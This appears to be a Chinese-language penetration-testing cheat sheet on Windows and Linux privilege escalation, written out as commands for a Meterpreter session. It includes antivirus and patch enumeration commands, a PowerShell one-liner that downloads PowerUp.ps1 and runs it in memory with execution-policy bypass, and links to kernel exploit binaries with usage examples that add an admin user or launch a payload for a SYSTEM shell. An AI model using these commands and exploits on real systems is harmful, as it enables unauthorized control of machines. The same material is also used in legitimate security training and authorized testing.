

### 一、权限类型

- 用户权限（Users）
- 管理员权限（Administrators）
- 系统权限（SYSTEM）
- 访客权限（Guest）

<br/>

#### 0x01、提权方向

- Windows提权方向

```text
user -> administrator

administrator -> system

services -> system
```

- Linux提权方向

```text
user -> root
```

<br/>

#### 0x02、提权分类

##### a、本地提权

`在有低权限帐户的情况下利用程序漏洞或系统漏洞进行权限提升`

##### b、远程提权

`通过远程漏洞利用工具获取权限`

##### c、操作系统提权

`Windows：MS06-067、MS10-084、MS11-014、MS11-05、MS12-020、MS16-032 等`

`Linux：CVE-2017-7308、CVE-2017-6074、CVE-2017-5123、CVE-2016-9793、CVE-2016-5195 等`

##### d、应用程序提权

`SQL Server、MySQL、Oracle`

<br/>

#### 二、系统提权

##### 0x01、提权思路

- 前期信息收集
- Meterpreter提权
- Windows系统内核漏洞
- Windows服务提权漏洞

##### 0x02、信息收集操作步骤

> 获得meterpreter会话并收集信息

###### a、手动补丁信息

> WMIC ：Windows管理工具命令行，提供了从命令行接口和批命令脚本执行系统管理的支持，对于信息 收集和渗透测试是非常实用的。

```sh
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

> 过滤指定补丁

```sh
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr ""
```

###### b、获取杀软信息

> 获取杀软名称(老系统)

```sh
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get display Name /Format:List
```

> 获取杀软名和安装路径

```sh
WMIC /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productStat e, pathToSignedProductExe
```

###### c、自动信息收集

> https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

```sh
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https:// raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invo ke-AllChecks"
```

> 在网络不通的情况可以下载到本地手动执行

```sh
powershell -ep bypass -c "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```

<br/>

##### 0x03、内核漏洞提权

- 列出安全更新补丁

```sh
powershell -c "Get-Hotfix -description 'Security update'"
```

- 查询补丁对应提权漏洞

```text
https://i.hacking8.com/tiquan
```

###### a、CVE-2018-8120

> https://github.com/alpha1ab/CVE-2018-8120

> CVE-2018-8120 exploit by @Topsec_Alpha_lab(https://github.com/alpha1ab) 
> 
> Usage: exp.exe command 
> 
> Example: exp.exe "net user admin admin /add"

###### b、CVE-2019-0803

> https://github.com/k8gege/K8tools/raw/master/CVE-2019-0803.exe

```sh
#检测漏洞是否存在
cve-2019-0803.exe cmd "whoami"
```

```sh
#反弹SYSTEM权限到MSF会话
cve-2019-0803.exe cmd "start payload.exe"
```

###### c、CVE-2020-0787

> https://github.com/cbwang505/CVE-2020-0787-EXP-ALL-WINDOWS-VERSION/releases



##### 0x04、工具脚本

> 各平台合集(近期更新)：https://github.com/Ascotbe/Kernelhub
> 
> juicy-potato：https://github.com/ohpe/juicy-potato